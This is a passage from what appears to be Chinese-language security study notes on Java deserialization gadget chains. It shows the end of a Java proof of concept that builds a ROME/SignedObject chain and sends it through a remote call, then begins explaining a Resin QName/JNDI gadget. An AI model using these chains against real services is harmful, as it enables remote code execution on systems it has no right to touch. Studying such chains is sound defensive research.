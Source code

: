 ```java
        keyPairGenerator.initialize(1024);
        KeyPair keyPair = keyPairGenerator.genKeyPair();
        PrivateKey privateKey = keyPair.getPrivate();
        Signature signingEngine = Signature.getInstance("DSA");
        SignedObject signedObject = new SignedObject(badAttributeValueExpException, privateKey, signingEngine);

        ToStringBean toStringBean = new ToStringBean(SignedObject.class, signedObject);
        EqualsBean equalsBean = new EqualsBean(String.class, "p4d0rn");
        HashMap map = new HashMap();
        map.put(equalsBean, 1);

        setFieldValue(equalsBean, "_beanClass", ToStringBean.class);
        setFieldValue(equalsBean, "_obj", toStringBean);

        greet.setHome(map);
    }
}
```

# 0x06 Resin

`HashMap#put`会调用`key.equals(k)`，对比两个对象

`com.sun.org.apache.xpath.internal.objects.XString#equals`

![image-20231021230622144](./../.gitbook/assets/image-20231021230622144.png)

`QName`是`Resin`对上下文`Context`的一种封装，它的`toString`方法会调用其封装类的`composeName`方法获取复合上下文的名称。

看类描述就知道这类不简单了

> Represents a parsed JNDI name.
>
> public class QName implements Name{}
